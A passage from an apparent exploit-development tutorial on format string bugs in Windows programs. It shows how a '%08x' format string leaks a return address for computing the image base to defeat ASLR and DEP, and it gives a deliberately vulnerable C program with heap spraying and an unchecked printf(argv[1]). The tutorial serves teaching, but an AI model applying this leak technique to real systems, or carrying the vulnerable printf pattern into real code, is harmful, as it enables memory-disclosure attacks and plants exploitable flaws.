 * Calculating the base address of the image, which is useful for ROP (return-oriented programming). An effective way to bypass DEP and ASLR.
* Fingerprinting the version of the program, which yields a more reliable exploit.

If we want to read the return value, we can tell `printf` to format the stack layout like this:

```
test.exe "0x%08x 0x%08x"
```

And we get the following output when we run the program:

```
0x0113f7a8 0x01141270
```

By using a debugger, we know that the base address in our example is 0x01140000. Leveraging that information, we know that the offset to the return address is **0x1270**. That means, as long as we are able to leak the return address, we can reliably figure out the base address of the image:

```
// The stack at a different run
0x00b4ff3c 0x00a31270 <-- The RETN address leak

// Calculating the base address
0x00a31270 - 0x1270 = A30000

// Debugger tells us we do indeed have the right address
Executable modules, item 0
 Base=00A30000
 Size=0001D000 (118784.)
 Entry=00A312E6 format_s.<ModuleEntryPoint>
 Name=format_s
 Path=C:\Users\sinn3r\Desktop\format_string_leak.exe

```

## Reading from an Arbitrary Location

Reading from an arbitrary location seems to be more rare in an attack, probably because it requires that value to be placed on the stack, and you don't always have direct control of that. However, this isn't completely impossible. For example:

```c
void spray() {
  size_t blockSize = 0x8000;
  for (int i = 0; i < 0x2048; i++) {
    LPVOID h = HeapAlloc(GetProcessHeap(), HEAP_ZERO_MEMORY, blockSize);
    memset(h, 'A', blockSize);
  }
}

int main(int args, char** argv) {
  spray(); // This writes data to 0x0c0c0c0c
  char buf[1024];
  scanf("%s", buf);
  printf(argv[1]);
  printf("\n");
  system("PAUSE");
  return 0;
}
```
